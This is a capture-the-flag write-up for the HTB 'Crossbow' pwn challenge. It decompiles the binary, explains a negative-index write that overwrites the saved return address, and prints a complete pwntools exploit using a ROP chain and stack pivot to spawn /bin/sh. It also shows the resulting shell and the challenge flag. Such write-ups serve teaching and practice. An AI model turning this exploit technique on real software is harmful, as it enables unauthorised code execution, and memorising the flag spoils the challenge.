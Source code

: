 # 2025 HTB Cyber Apocalypse - Crossbow

We run the binary:
```
~~ Get this Arrow to the Knee of the enemy ~~
⠀⠀⠀⠀⢀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⣄
⠀⠀⠀⠀⢸⣟⠻⢶⣦⣤⣄⣀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠈⡇⠀⠈⠳⣄
⠀⠀⠀⠀⠘⣿⠀⠀⠈⠙⠻⢿⣿⣿⣿⣷⣦⣄⠀⠀⠀⠀⣿⡀⠀⠀⠈⠳⣄
⠀⠀⠀⠀⠀⣿⠀⠀⠀⠀⠀⠀⠈⠙⠿⣿⣿⣿⠟⢀⣴⣦⡈⠻⣦⣤⣀⣀⡟
⠀⠀⠀⠀⠀⣿⡀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⣠⣾⣿⢟⣿⣿⠆⠀⠀⠀⠈⠀
⠀⠀⠀⠀⠀⢹⡇⠀⠀⠀⠀⠀⠀⠀⢀⣴⣾⡿⠋⣠⣿⡿⢁⣤
⠀⠀⠀⠀⠀⢸⡇⠀⠀⠀⠀⠀⠀⣴⣿⡿⠋⣠⣾⡿⠋⢠⣿⣿⣷⡀
⠀⠀⠀⠀⠀⢸⣧⠀⠀⠀⠀⣠⣾⡿⠋⣠⣾⣿⠟⠁⠀⠈⢻⣿⣿⣷
⠀⠀⠀⠀⠀⠈⣿⠀⠀⢠⣾⡿⠋⣠⣾⡿⠛⠁⠀⠀⠀⠀⠀⠹⣿⣿⡄
⠀⠀⠀⠀⠀⠀⣿⢀⣴⡿⠋⣠⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣿⣇
⠀⠀⠀⠀⠀⢀⣿⡿⠋⣠⣾⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠹⣿⡀
⠀⠀⠀⠀⣠⣿⣿⣧⣾⣿⣥⣤⣤⣄⣀⣀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠹⣧
⠀⠀⣠⣾⣿⣿⡿⠛⠁⠀⠀⠀⠉⠉⠉⠉⠉⠉⠙⠛⠛⠛⠛⠛⠛⠿⠶⠿⠇
⠀⠘⢿⣿⡿⠋
⠀⠀⠀⠉

[Sir Alaric]: You only have 1 shot, don't miss!!

[Sir Alaric]: Select target to shoot: 1

[Sir Alaric]: Give me your best warcry!!

> a

[Sir Alaric]: That was quite a shot!!
```

Internals look like this, function `main`:
```
undefined8 main(void)

{
  setvbuf((FILE *)__stdin_FILE,(char *)0x0,2,0);
  setvbuf((FILE *)__stdout_FILE,(char *)0x0,2,0);
  alarm(0x1312);
  banner();
  training();
  return 0;
}
```

Important function `training`:
```
void training(void)

{
  undefined1 local_28 [32];
  
  printf("%s\n[%sSir Alaric%s]: You only have 1 shot, don\'t miss!!\n",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  target_dummy((long)local_28);
  printf("%s\n[%sSir Alaric%s]: That was quite a shot!!\n\n",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  return;
}
```

Note how `training` function allocates 32 bytes on its stack and then passes its stack address to `target_dummy`. Disassembled function `target_dummy`:
```
void target_dummy(long param_1)

{
  long *plVar1;
  int iVar2;
  void *pvVar3;
  char *pcVar4;
  int local_1c [3];
  
  printf("%s\n[%sSir Alaric%s]: Select target to shoot: ",&DAT_0040b4a8,&DAT_0040b00e,&DAT_0040b4a8)
  ;
  iVar2 = scanf("%d%*c",local_1c);
  if (iVar2 != 1) {
    printf("%s\n[%sSir Alaric%s]: Are you aiming for the birds or the target kid?!\n\n",
           &DAT_0040b4e4,&DAT_0040b00e,&DAT_0040b4e4);
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  plVar1 = (long *)((long)local_1c[0] * 8 + param_1);
  pvVar3 = calloc(1,0x80);
  *plVar1 = (long)pvVar3;
  if (*plVar1 == 0) {
    printf("%s\n[%sSir Alaric%s]: We do not want cowards here!!\n\n",&DAT_0040b4e4,&DAT_0040b00e,
           &DAT_0040b4e4);
                    /* WARNING: Subroutine does not return */
    exit(0x1b39);
  }
  printf("%s\n[%sSir Alaric%s]: Give me your best warcry!!\n\n> ",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  pcVar4 = fgets_unlocked(*(char **)(param_1 + (long)local_1c[0] * 8),0x80,(FILE *)__stdin_FILE);
  if (pcVar4 == (char *)0x0) {
    printf("%s\n[%sSir Alaric%s]: Is this the best you have?!\n\n",&DAT_0040b4e4,&DAT_0040b00e,
           &DAT_0040b4e4);
                    /* WARNING: Subroutine does not return */
    exit(0x45);
  }
  return;
}
```

The `param_1` in `target_dummy` is the stack address allocated by function `training` and we can write to any position during "target selection". Since the stack frame of `training` function is located below `target_dummy` function, this implicates that stored RIP value will be somewhere in between those two stack frames. Additionally, if we write to the lower stack frame, and we can choose the position, we can simply target the stored RIP value in the `target_dummy` function stack frame by specifying the negative value of the target in the first query. Here is a simple depiction of the situation:
```
-------   <-- target_dummy stack pointer
|     |
|     |
|     |
|-----|   <-- target_dummy base pointer
| RBP |   <-- stored base pointer (pivot -2, selected target)
| RIP |   <-- stored instruction pointer
-------   <-- target function stack pointer (pivot, local_28[0])
| ... |
|-----|
```

Once we have control of the stored RIP, we can build a ROP chain that would give us a shell. Conveniently there was a `pop rsp` gadget available which enabled us to perform a stack pivot and extend our chains beyond initial memory limitations. Initial idea was to overwrite stored RBP with `/bin/sh` to somehow load it into another register as a parameter but this failed so the final chain ended up being `syscall_read(stdin, RW_SECTION, 1024)` to write "/bin/sh" into an RW section and then execute `syscall_execve(RW_SECTION, 0, 0)`.

```
from pwn import *

context.os = 'linux'
context.arch = 'amd64'

POP_RDI = p64(0x0000000000401d6c)
POP_RSI = p64(0x000000000040566b)
POP_RDX = p64(0x0000000000401139)
POP_RAX = p64(0x0000000000401001)
POP_R12 = p64(0x00000000004018b4)
POP_RSP = p64(0x00000000004018b5)
MOV_RSI_RBP_SYSCALL = p64(0x00000000004052c1)
MOV_RDI_RBP_SYSCALL = p64(0x0000000000408e8f)
scall = 0x00000000004015d3
SYSCALL = p64(0x00405378)
RW_SECTION = 0x40d000
STDIO_READ = p64(0x00405390)
CALL_R12 = p64(0x000000000040171c)
STDIN = p64(0x0040dfc8)

e = ELF("./crossbow")
r = process("./crossbow")
#gdb.attach(r, '''
#set follow-fork-mode child
#b *0x0040126f
#b *0x004013b8
#continue
#''')

r.recvuntil(b"shoot: ")
r.sendline(b"-2")
r.recvuntil(b"> ")

payload  = b"/bin/sh\x00"
payload += POP_RAX
payload += p64(0) #read
payload += POP_RDI
payload += p64(0) #stdin
payload += POP_RSI
payload += p64(RW_SECTION)
payload += POP_RDX
payload += p64(1024)
payload += SYSCALL
payload += b"A"*8

payload += POP_RSP
payload += p64(RW_SECTION+8)

r.sendline(payload)

sleep(1)
payload  = b"/bin/sh\x00"
payload += POP_RAX
payload += p64(59) #execve
payload += POP_RDI
payload += p64(RW_SECTION) #/bin/sh
payload += POP_RSI
payload += p64(0)
payload += POP_RDX
payload += p64(0)
payload += SYSCALL
r.sendline(payload)
r.interactive()
```

Local execution:
```
$ python3 xpl.py 
[*] '/home/vm/Documents/htbctf/pwn_crossbow/crossbow'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
[+] Starting local process './crossbow': pid 10708
[*] Switching to interactive mode

[Sir Alaric]: That was quite a shot!!

$ id
uid=1000(vm) gid=1000(vm) groups=1000(vm),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
$ 
[*] Interrupted
[*] Stopped process './crossbow' (pid 10708)
```

```
HTB{st4t1c_b1n4r13s_ar3_2_3z_9ec5399fdcbcd8611c2bab360f6a6d0b}
```
